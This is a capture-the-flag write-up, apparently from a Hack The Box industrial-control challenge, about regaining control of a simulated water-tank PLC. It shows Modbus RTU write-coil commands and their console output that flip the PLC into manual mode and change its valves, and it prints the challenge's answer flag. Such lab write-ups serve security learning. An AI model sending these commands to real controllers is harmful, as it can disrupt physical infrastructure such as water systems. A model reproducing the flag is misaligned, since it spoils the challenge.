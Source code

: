```
Our infrastructure is under attack! The HMI interface went offline and we lost control of some critical PLCs in our ICS system. Moments after the attack started we managed to identify the target but did not have time to respond. The water storage facility's high/low sensors are corrupted thus setting the PLC into a halt state. We need to regain control and empty the water tank before it overflows. Our field operative has set a remote connection directly with the serial network of the system.
```

![[Pasted image 20230828215353.png]]

![[Pasted image 20230828215026.png]]


### Approach

- https://en.wikipedia.org/wiki/Ladder_logic

__Rung input__

Checkers (contacts)

- `—[ ]—` Normally open contact, closed whenever its corresponding coil or an input which controls it is energized. (Open contact at rest.)
- `—[\]—` Normally closed ("not") contact, closed whenever its corresponding coil or an input which controls it is not energized. (Closed contact at rest.)

__Rung output__

Actuators (coils)

- `—( )—` Normally inactive coil, energized whenever its rung is closed. (Inactive at rest.)
- `—(\)—` Normally active ("not") coil, energized whenever its rung is open. (Active at rest.)


```
We need to regain control and empty the water tank before it overflows.
```

`in_valve` should be 0 and `out_valve` should be 1. Currently, its the opposite.

I think activating `manual_mode` instead of `auto_mode` and reversing valve values through modbus should do the trick.

Can't get the format correctly. 
```
The following is an example of a Modbus RTU request for obtaining the AI value of the holding registers from registers # 40108 to 40110 with the address of the device 17.
```

__11 03 006B 0003 7687__

|   |   |
|---|---|
|**11**|THE ADDRESS OF THE SLAVEID DEVICE (17 = **11** HEX)|
|**03**|Functional code Function Code|
|**006B**|The address of the first register (40108-40001 = 107 = **6B** hex)|
|**0003**|The number of required registers (reading 3 registers from 40108 to 40110)|
|**7687**|CRC checksum|

No need for checksum so tried :

```
1. Get status of system
2. Send modbus command
3. Exit
Select: 2
Modbus command: 82 03 006B 0003
Invalid command: command is not the right length
1. Get status of system
2. Send modbus command
3. Exit
Select:
```

Apparently spaces are not needed
```
Modbus command: 0x41B15C2922
Invalid command: String contains non hex characters
```

82 -> 0x52
3   -> 0x03

`5203006B0003` is in the correct format.


**Function 05 (05hex) Write Single Coil**

Writes a single coil to either ON or OFF.

**Request** 
The request message specifies the coil reference to be written. Coils are addressed starting at zero-coil 1 is addressed as 0.

The requested ON / OFF state is specified by a constant in the request data field. A value of FF 00 hex requests the coil to be ON. A value of 00 00 requests it to be OFF. All other values are illegal and will not affect the coil.

Here is an example of a request to write coil 173 ON in slave device 17:

|   |   |   |
|---|---|---|
|**Field Name**|**RTU (hex)**|**ASCII Characters**|
|Header|None|: (Colon)|
|Slave Address|11|1 1|
|Function|05|0 5|
|Coil Address Hi|00|0 0|
|Coil Address Lo|AC|A C|
|Write Data Hi|FF|0 0|
|Write Data Lo|00|F F|
|Error Check Lo|4E|LRC (3 F)|
|Error Check Hi|8B|None|
|Trailer|None|CR LF|
|Total Bytes|8|17|
https://www.modbustools.com/modbus.html#function05

![[Pasted image 20230828225736.png]]


Setting `manual_mode_control` to 1:

hex(9947) = 26DB
hex(82) = 52 
`520526DBFF00` worked.

```
1. Get status of system
2. Send modbus command
3. Exit
Select: 1
{"auto_mode": 1, "manual_mode": 0, "stop_out": 0, "stop_in": 0, "low_sensor": 0, "high_sesnor": 0, "in_valve": 1, "out_valve": 0, "flag": "HTB{}"}
1. Get status of system
2. Send modbus command
3. Exit
Select: 2
Modbus command: 520526DBFF00
Modbus command sent to the network!
1. Get status of system
2. Send modbus command
3. Exit
Select: 1
{"auto_mode": 0, "manual_mode": 1, "stop_out": 0, "stop_in": 0, "low_sensor": 0, "high_sesnor": 0, "in_valve": 1, "out_valve": 0, "flag": "HTB{}"}
```

### Deactivating `in_valve`:

`52 05 000C 0000`

Trying to make `in_valve` 0 through the above doesn't work.

Hmmm...

![[Pasted image 20230828230607.png]]

Since `manual_mode` is activated, need to enable `cutoff_in` to disable `in_valve`.

![[Pasted image 20230828230751.png]]

```
{"auto_mode": 0, "manual_mode": 1, "stop_out": 0, "stop_in": 1, "low_sensor": 0, "high_sesnor": 0, "in_valve": 0, "out_valve": 0, "flag": "HTB{}"}
```

Need to enable `out_valve` now.

![[Pasted image 20230828231134.png]]

Enabling `force_start_out` should do the trick.

```
Select: 2
Modbus command: 52050034FF00
Modbus command sent to the network!
1. Get status of system
2. Send modbus command
3. Exit
Select: 1
{"auto_mode": 0, "manual_mode": 1, "stop_out": 0, "stop_in": 1, "low_sensor": 0, "high_sesnor": 0, "in_valve": 0, "out_valve": 1, "flag": "HTB{14dd32_1091c_15_7h3_1091c_c12cu175_f02_1ndu572141_5y573m5}"}

```

